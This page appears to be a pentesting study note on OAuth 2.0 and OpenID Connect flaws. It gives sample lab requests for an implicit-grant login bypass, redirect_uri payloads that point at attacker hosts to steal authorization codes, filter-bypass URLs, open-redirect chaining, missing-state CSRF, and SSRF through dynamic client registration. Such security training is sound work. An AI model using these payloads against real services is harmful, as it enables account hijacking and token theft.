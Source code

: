 ```yaml
---
title: "OAuth 2.0"
weight: 17
description: "Explore OAuth 2.0 authorization framework, its vulnerabilities, and common security flaws in penetration testing. Learn how to identify OAuth flow and prevent attacks."
---
```


# OAuth 2.0

{{< details summary="Introduction" >}}

**What is OAuth?**

* OAuth is a commonly used authorization framework that enables web applications to request limited access to a user's account on another application.

**How does OAuth 2.0 work?**

* **Client application** - The website that wants to access the user's data.
* **Resource owner** - The user whose data the client application wants to access.
* **OAuth service provider** - The website or application that controls the user's data and access to it. They support OAuth by providing an API for interacting with both an authorization server and a resource server.

{{< /details >}}

---

## Identifying OAuth authentication

* If you see an option to log in using your account from a different website, this is a strong indication that OAuth is being used.
* Regardless of which OAuth grant type is being used, the first request of the flow will always be a request to the `/authorization` endpoint containing a number of query parameters that are used specifically for OAuth. In particular, keep an eye out for the `client_id`, `redirect_uri`, and `response_type` parameters

### Recon

If using an external OAuth service, identify the provider by the hostname in the authorization request. Public API documentation typically provides detailed information, including endpoint names and configuration options. Try sending a request to the following standard endpoints:

* `/.well-known/oauth-authorization-server`
* `/.well-known/openid-configuration`

---

## Vulnerabilities

### Improper implementation of the implicit grant type

At the conclusion of the login process, the client application often sends the username and access token to the server via a `POST` request. The server then issues a session cookie, effectively completing the login and establishing the user session

```http
POST /authenticate HTTP/2
Host: 0a55005703e1680182bd7f6100b60068.web-security-academy.net
[..]

{"email":"lebron@cleveland.com","username":"lebron","token":"ckNqkfxB"}
```

```http
HTTP/2 302 Found
Location: /
Set-Cookie: session=OixJC365d0v7yaU1l1xEnCCtfnRZDhZe; Secure; HttpOnly; SameSite=None
```

Exploitation: repeat this request with an arbitrary account (changing email and username) and leaving the access token

### Account hijacking via redirect\_uri

Replace `redirect_uri` with a attacker controlled domain

```md
https://oauth-x.oauth-server.net/auth?client_id=xyz&redirect_uri=https://attack.com/oauth-callback&response_type=code&scope=openid profile email
```

{{< hint style=notes >}}
**Note**: using `state` or `nonce` protection does not necessarily prevent these attacks because an attacker can generate new values from their own browser.
{{< /hint >}}

**Flawed redirect\_uri validation**

```md
https://default-host.com@foo.evil-user.net
https://oauth-xxx-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net
https://localhost.evil-user.net
```

**Chain vulns**&#x20;

If you are unable to successfully submit an external domain as the `redirect_uri` you can chain vulnerabilities like open redirect, xss etc.

1. Find open redirect

    ```md
    https://server.net/post/next?path=https://attacker.com
    ```

2. Use this url as `redirect_uri`&#x20;

    ```md
    https://oauth-xxx-server.com/?client_id=123&redirect_uri=https://server.net/post/next?path=https://attacker.com[...]
    ```

{{< hint style=tips >}}
**Tip**: the default URI will often be on an OAuth-specific path, such as `/oauth/callback`, so you can use directory traversal tricks `https://client-app.com/oauth/callback/../../example/path`
{{< /hint >}}

### Flawed CSRF protection

if you notice that the authorization request does not send a `state` parameter, It potentially means that you can initiate an OAuth flow yourself before tricking a user's browser into completing it, similar to a traditional CSRF attack.

---

## OpenID Connect

### Identifying OpenID Connect

Look for the mandatory `openid` scope

### Unprotected dynamic client registration

1. Identify configuration file `/.well-known/openid-configuration` to get registration\_endpoint
2. Register your own client app. In the logo\_uri add a external url for SSRF

    ```http
    POST /reg HTTP/1.1
    Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
    Content-Type: application/json

    {
        "application_type": "web",
        "client_name": "My Application",
        "redirect_uris": [
            "https://client-app.com/callback",
            "https://client-app.com/callback2"
            ],
        "logo_uri": "https://BURP-COLLABORATOR-SUBDOMAIN"
    }
    ```

    ```http
    HTTP/2 201 Created
    [...]

    {[...]"client_id":"aqFGUZgiQmXrUphoMV7i6","client_name":"My Application",[...]}
    ```

3. Make `GET /client/CLIENT-ID/logo` request and replace the `client_id`

